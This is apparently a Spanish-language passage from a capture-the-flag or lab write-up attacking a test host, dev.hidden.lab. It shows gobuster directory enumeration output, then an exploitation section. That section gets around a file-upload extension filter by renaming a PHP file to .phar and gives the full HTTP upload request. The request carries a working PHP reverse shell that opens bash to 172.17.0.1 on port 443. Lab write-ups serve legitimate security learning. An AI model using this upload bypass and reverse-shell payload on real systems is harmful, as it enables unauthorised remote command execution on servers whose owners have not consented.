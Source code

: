 ```bash
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 1653]
/uploads              (Status: 301) [Size: 318] [--> http://dev.hidden.lab/uploads/]
/upload.php           (Status: 200) [Size: 74]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished

```

Tenemos un **upload.php** y un **uploads**
# EXPLOTACION

Al subir un **php** para al ponernos en escucha por el puerto 443 otorgarnos una reverse shell no nos deja, pero si interceptamos con burpsuite y cambiamos la extension a **.phar** si :

```python
POST /upload.php HTTP/1.1
Host: dev.hidden.lab
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------21765136792949585244347782969
Content-Length: 477
Origin: http://dev.hidden.lab
Connection: keep-alive
Referer: http://dev.hidden.lab/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------21765136792949585244347782969
Content-Disposition: form-data; name="archivo"; filename="wp.phar"
Content-Type: application/x-php

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

-----------------------------21765136792949585244347782969--

```